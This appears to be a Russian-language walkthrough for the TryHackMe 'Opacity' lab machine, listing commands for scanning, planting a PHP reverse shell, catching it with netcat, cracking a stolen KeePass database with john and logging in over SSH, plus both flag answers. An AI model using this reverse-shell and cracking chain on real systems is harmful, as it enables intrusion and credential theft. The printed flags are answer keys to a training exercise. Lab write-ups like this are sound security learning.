 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Opacity](https://tryhackme.com/r/room/opacity) 

Всего 1 заданиe:
## Задание 1
Opacity — это простая машина, которая может помочь вам в  процессе обучения тестированию на проникновение.

На машине есть 2 хэш-ключа (пользовательский - local.txt и корневой - proof.txt). Сможете ли вы их найти и стать root?

Совет: существует несколько способов выполнить действие; всегда анализируйте поведение приложения.

### Ответьте на вопросы ниже
Что такое флаг local.txt?
```commandline
nmap -sC -sV -p- <IP>
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://<IP>
http://<IP>/cloud/
/usr/share/webshells/php/php-reverse-shell.php
nc -nvlp 1234
python3 -c 'import pty;pty.spawn("/bin/bash");'
wget http://<IP>:8080/dataset.kdbx
keepass2john dataset.kdbx > keepass.hash
john keepass.hash --wordlist=/usr/share/wordlist/rockyou.txt
keepassxc dataset.kdbx
ssh sysadmin@<IP>
cat local.txt

```
```commandline
6661b61b44d234d230d06bf5b3c075e2
```
Что такое флаг proof.txt?
```commandline
nc -nvlp 1235
cat proof.txt
```
```commandline
ac0d56f93202dd57dcb2498c739fd20e
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)